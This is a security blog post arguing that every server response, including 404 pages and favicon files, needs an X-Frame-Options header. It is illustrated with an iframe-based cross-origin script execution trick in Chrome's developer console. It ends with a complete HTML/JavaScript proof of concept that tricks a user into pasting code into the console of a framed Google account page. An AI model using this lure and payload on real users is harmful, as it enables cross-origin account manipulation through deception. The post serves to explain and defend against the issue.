

Why XFO header should be applied to every response
The X-Frame-Options (XFO) header is widely used to prevent clickjacking attacks.
It makes sense not to let arbitrary websites embed sensitive external websites with full credentials, since you can trick users into performing actions in what they percieve to be within the attackers website, except in reality they are interacting with their facebook account for example.
Because of this, most websites send a XFO header on sensitive parts of websites where clickjacking is a possibility, not all. Usually the (favicon.ico) file and 404 pages are forgotten. But is this good practice? Are there other risks?
If a website forgets to send an XFO header in a useless 404 page, is that bad? Well, yes and no. If your goal is to prevent clickjacking then sure, you have prevented that. But are there other theoretical risks? Yes!
Since I have been focusing on browser security, I realized that a lot of exploits come out every month. I will be focusing on a single type of vulnerability with certain conditions/restrictions.
Universal XSS / Same origin policy bypass
The uXSS is a bug where you can run javascript on any cross origin website. So, ordinarily you can't be within 'a.com' and execute JS code on 'b.com' but with a uXSS bug you can.
Now, there are many different exploits that use many different ways, but I will be focusing on the ones that rely on gaining a reference to a cross-origin website.
The main two ways to gain a reference to a cross-origin website are:
1. Using the open() JS function. This function will open a website and return a reference to it.
2. Have an iframe point to a cross origin website (that doesnt serve XFO header) and then this[0] will contain the reference to the cross origin object.
We will be focusing on (2), specifically, uXSS exploits that work by manipulating iframes (which means they rely on iframes). I have seen many uXSS bugs that (for some reason) only work on iframes and so I had to ask myself, what can be done if we had such an exploit?
I initially thought iframe based uXSS would be useless, since most if not all juicy websites (facebook, twitter and all) could'nt be included in an iframe to begin with. And even if I can include a favicon.ico file, so what? Can we do anything useful?
Well, after much thought, I think there is a danger.
The Google Chrome '0day'
I will be using an unreported 'uXSS' in order to prove this concept. I did not bother to report this since it is high in user interaction + probably 'working as intended.'
You may or may not be aware that the Google Chrome web console has the ability to change contexts by default, when you open it it will be pointed to the TOP context, meaning the main window. But, you can also change the context to any sub frames.
Say you have a page that contains a random iframe pointing to a random framable website, you should see the following in your web console.

The only indication that you are within another context other than TOP is that the drop down menu turns red. I don't think this is something most will take as a problem, so already we see the exploitability here. But are we to expect a user to be convinced into switching contexts? No.
If a user right clicks and 'inspects element' of an iframe, the console will be automatically within the iframes context. You may have also noticed the sub frame I have in the screenshot above is 'top (thing)' and under it 'myaccount.google.com'
'top' is actually the ID of the iframe (I named it TOP in order to look like its the top frame/context), 'thing' is the remote file being accessed and finally the origin under it is not displayed on the main dropdown menu so we can ignore that.
So our Google Chrome exploit will work as follows:
1. Visit attacker page & copy some code.
2. Right click anywhere and attempt to 'inspect element'
3. Go to 'Console' and paste said code and execute.
4. JS code is executed within cross-origin website.
Escalation
Now that we have an 'exploit' to play with, let's think about what can be done with this? Reading 'document.cookie' is outdated and boring. We want to be able to touch the juicy, XFO'd pages.
The only way I can think of is to open up a reference to a juicier page and then have the iframe mess with it. Since they both are same origin it will be legitimate. Please note that even if the website has XFO header with 'sameorigin' it will check the most top frame, so we cant just put another iframe within the iframe.
Here is the full proof of concept, follow each step and you should see the magic happen. Keep in mind this code will only work on 'localhost' to prevent abuse.
If you ever wonder how something is done, just read the code. If reading the code doesn't help please DM me on twitter @qab.
<html>
<head>
<title>roboto</title>
<style>
iframe{
border:0px solid red;
width:1000px;
height:400px;
position:absolute;
left:-400px;
}
#q{
z-index:1000;
position:absolute;
top:200px;
background-color:white;
display:block;
height:200px;
width:200px;
}
</style>
</head>
<body>
<div id="q">Right click and inspect <br>the broken robot to fix him!</div>
<iframe id="top" src="http://innocent.iframe/hello!"></iframe>
<script>
this[0].location='https://myaccount.google.com/roboto#var z;document.write("<button id=q>Roboto has been saved! click here to claim your prize</button>");top.postMessage("a", "http://localhost/");q.onclick=function(){z=open("/");setTimeout(function(){z.document.write("@qab");},1500);};';
window.onresize=function(){
console.clear();
q.innerHTML='Save Mr.Roboto by copy pasting the following into his console.<br><textarea>'+`Function(location.hash.split('#')[1])()`+'</textarea>';
console.log('%c Paste code here to save Mr.Roboto! (press CTRL+V to paste)', 'color: red; font-size:25px;');
console.log('%c The code: '+`Function(location.hash.split('#')[1])()`, 'color: red; font-size:15px;');
window.onresize=null;
}
window.addEventListener("message", receiveMessage, false);
function receiveMessage(event)
{
q.remove();
document.getElementById('top').style.setProperty('left','0px');
}
</script>
</body>
</html>
Conclusions
Any and all responses coming from your server should have an appropriate XFO header.